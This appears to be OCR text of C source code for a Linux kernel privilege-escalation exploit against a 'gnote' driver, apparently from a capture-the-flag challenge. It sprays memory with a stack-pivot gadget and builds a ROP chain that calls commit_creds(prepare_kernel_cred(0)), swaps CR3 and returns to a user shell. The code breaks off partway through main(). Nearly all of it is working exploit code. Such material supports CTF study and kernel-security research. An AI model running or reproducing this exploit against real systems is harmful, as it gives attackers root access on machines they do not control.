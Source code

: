 ```c
    xchg_CR3_sysret     = kernel_base + 0x600116; // mov rdi, cr3 ; or rdi, 0x1000 ; mov cr3, rdi ; pop rax ; pop rdi ; pop rsp ; swapgs ; sysret

}


void prepare_heap_spray()

{
    /* Kernel load minimum address 0xffffffffc0000000 + (0x8000000+0x1000000)*8 = 0x8000000 */
    char *pivot_addr=mmap((void*)0x8000000, 0x1000000, PROT_READ|PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1,0);
    unsigned long *spray_addr= (unsigned long *)pivot_addr;
    for (int i=0; i<0x1000000/8; i++)
        spray_addr[i]=xchg_eax_esp_ret;
}


void set_ropchain()


{

    unsigned long mmap_base = xchg_eax_esp_ret & 0xfffff000;
    unsigned long *rop_base = (unsigned long*)(xchg_eax_esp_ret & 0xffffffff);
    char *ropchain = mmap((void *)mmap_base, 0x2000, PROT_READ|PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1,0);
    int i=0;

    // commit_creds(prepare_kernel_cred(0))
    rop_base[i++] = pop_rdi_ret;
    rop_base[i++] = 0;
    rop_base[i++] = prepare_kernel_cred;
    rop_base[i++] = pop_rsi_ret;          
    rop_base[i++] = -1;
    rop_base[i++] = mov_rdi_rax_p_ret;
    rop_base[i++] = 0;
    rop_base[i++] = commit_creds;
    // xchg_CR3_sysret
    rop_base[i++] = pop_rcx;
    rop_base[i++] = &shell;
    rop_base[i++] = pop_r11;
    rop_base[i++] = user_rflags;
    rop_base[i++] = 0;
    rop_base[i++] = xchg_CR3_sysret;
    rop_base[i++] = 0;
    rop_base[i++] = 0;
    rop_base[i++] = user_sp;

}


int main()

{   
    // Step 0 : save tatus
    save_status();

    fd=open("proc/gnote", O_RDWR);
    if (fd<0)
    {
        puts("[-] Open driver error!");
        exit(-1);
```